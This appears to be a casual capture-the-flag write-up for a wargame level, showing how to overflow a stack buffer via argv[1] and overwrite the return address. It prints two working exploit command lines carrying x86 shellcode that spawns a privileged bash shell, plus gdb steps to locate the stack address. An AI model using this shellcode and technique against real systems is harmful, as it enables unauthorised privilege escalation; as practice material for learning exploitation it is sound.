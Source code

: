 #level5

1. Put random shit in argv[1].
We notice we get a segfault

2. gdb
Let's put random shit 'til we get to overwrite the ret address.

```
br address before printf call
run $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x    68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "BCCCC\xef\xbe\xad\xde" + "IFGHIJKLMNOPQRSTUVWXYZAAAABBBB"')
```
**Boom!** we get ret overwritten by 0xdeadbeef
Now all we have to do is make it point to our shellcode.

Let's print out the stack:
```
x/200x $esp
```
Okay, done. Now we have found a good address on the stack let's put some NOP sled and some shellcode. Oh wait did it work with 'A'?


```
/levels/level05 $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "BCCCC\x50\xfd\xff\xbf" + "IFGHIJKLMNOPQRSTUVWXYZAAAABBBB"')
```

I guess it was a valid opcode or smth. Too lazy to try back.
